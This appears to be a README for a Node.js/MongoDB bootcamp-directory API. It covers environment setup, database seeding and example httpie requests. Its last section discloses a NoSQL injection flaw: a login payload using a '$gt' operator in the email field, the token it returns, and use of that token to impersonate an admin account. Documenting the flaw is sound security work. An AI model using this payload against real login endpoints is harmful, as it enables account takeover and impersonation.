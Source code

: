 1. create a `config/config.env` file that has the following structure:

```bash
NODE_ENV=development
PORT=

MONGO_URI= # Go to the cluster in your `cloud.mongodb.com` account, click on "Connect" and paste the connection string from there into this environment variable.

GEOCODER_PROVIDER=
GEOCODER_API_KEY=

FILE_UPLOAD_PATH=
MAX_FILE_UPLOAD= # In bytes.

JWT_SECRET=
JWT_EXPIRE=
JWT_COOKIE_EXPIRE= # Ideally, the application should *treat* this value as *identical to* the amount of time stored in the previous variable.

SMTP_HOST=
SMTP_PORT=
SMTP_EMAIL=
SMTP_PASSWORD=
FROM_EMAIL=
FROM_NAME=
```

2. Create a folder at the location stored in the `FILE_UPLOAD_PATH` environment variable

3. Delete all data from the database:

```bash
node seeder.js -d
```

4. Seed hardcoded data into the database:

```bash
node seeder.js -i
```

5. start serving the backend application

```bash
npm run dev
```

6. issue HTTP requests

```bash
http localhost:5000/api/v1/bootcamps
http 'localhost:5000/api/v1/bootcamps?location.state=MA&housing=true'
http 'localhost:5000/api/v1/bootcamps?averageCost[lt]=10000'
http 'localhost:5000/api/v1/bootcamps?careers[in]=Business'
http 'localhost:5000/api/v1/bootcamps?select=name,description'
http 'localhost:5000/api/v1/bootcamps?select=name,housing&sort=name'
http 'localhost:5000/api/v1/bootcamps?select=name,housing&sort=-name'
http 'localhost:5000/api/v1/bootcamps?select=name&limit=2'
http 'localhost:5000/api/v1/bootcamps?select=name&limit=2&page=2'

http localhost:5000/api/v1/bootcamps/17
```

```bash
http \
  POST \
  localhost:5000/api/v1/auth/register \
  name="John Doe" \
  email=john.doe@protonmail.com \
  password=123456 \
  role=publisher
```

```bash
http \
  POST \
  localhost:5000/api/v1/auth/login \
  email=john.doe@protonmail.com \
  password=123456
```

```bash
export TKN=<token-returned-by-preceding-request>
```

```bash
http \
  POST \
  localhost:5000/api/v1/bootcamps \
  Authorization:"Bearer ${TKN}" \
  name="TEST BOOTCAMP" \
  description="Devworks is a full stack JavaScript Bootcamp located in the heart of Boston that focuses on the technologies you need to get a high paying job as a web developer" \
  website="https://devworks.com" \
  phone="(111) 111-1111" \
  email="enroll@devworks.com" \
  address="233 Bay State Rd Boston MA 02215" \
  careers:='["Web Development", "UI/UX", "Business"]' \
  housing:=true \
  jobAssistance:=true \
  jobGuarantee:=false \
  acceptGi:=true

export BOOTCAMP_ID=<the-id-of-the-resource-created-by-preceding-request>

http \
  PUT \
  localhost:5000/api/v1/bootcamps/${BOOTCAMP_ID} \
  Authorization:"Bearer ${TKN}"

http \
  DELETE \
  localhost:5000/api/v1/bootcamps/${BOOTCAMP_ID} \
  Authorization:"Bearer ${TKN}"
```

```bash
http localhost:5000/api/v1/courses
http localhost:5000/api/v1/bootcamps/5d713995b721c3bb38c1f5d0/courses
```

```bash
http \
  -f \
  PUT \
  localhost:5000/api/v1/bootcamps/5d725a1b7b292f5f8ceff788/photo \
  Authorization:"Bearer ${TKN}"

http \
  -f \
  PUT \
  localhost:5000/api/v1/bootcamps/5d725a1b7b292f5f8ceff788/photo \
  Authorization:"Bearer ${TKN}" \
  file@<path-to-some-NON-image-file-on-your-device>

http \
  -f \
  PUT \
  localhost:5000/api/v1/bootcamps/5d725a1b7b292f5f8ceff788/photo \
  Authorization:"Bearer ${TKN}" \
  file@<path-to-some-image-file-on-your-device>

# At this point,
# copy the filename returned by the last request to the clipboard;
# open a web browser;
# enter the following in the address bar:
# http://localhost:5000/uploads/<paste-the-copied-filename> ;
# and load that page in the browser.
```

---

---

as of commit `2dd80d66e99c2c6e4805206797c84027f1301ad0`,
it is possible for a malicious actor
to obtain an access token associated with _some_ registered `User`
by simply guessing (the plaintext version of) that `User`'s password;
more concretely,
that can be achieved
via the following <u>NoSQL injection</u> attack
against the backend application:

```bash
http \
  POST \
  localhost:5000/api/v1/auth/login \
  email:='{"$gt": ""}' \
  password=123456

# ...

200

{
    "success": true,
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjVkN2E1MTRiNWQyYzEyYzc0NDliZTA0MiIsImlhdCI6MTcyMzM4ODc0MSwiZXhwIjoxNzIzMzkyMzQxfQ.j1PmQydXE6dTSXJ5RJCgvo8sZvn8_otyWw35b6SJG14"
}

# That token corresponds to a `User` that does exist in the DB
# and
# can be used by the malicious actor to impersonate that `User`.

export TKN=<the-returned-value>

http \
  localhost:5000/api/v1/auth/me \
  Authorization:"Bearer ${TKN}"

# ...

200

{
    "data": {
        "__v": 0,
        "_id": "5d7a514b5d2c12c7449be042",
        "createdAt": "2024-08-11T14:30:44.468Z",
        "email": "admin@gmail.com",
        "name": "Admin Account",
        "role": "user"
    },
    "success": true
}
```
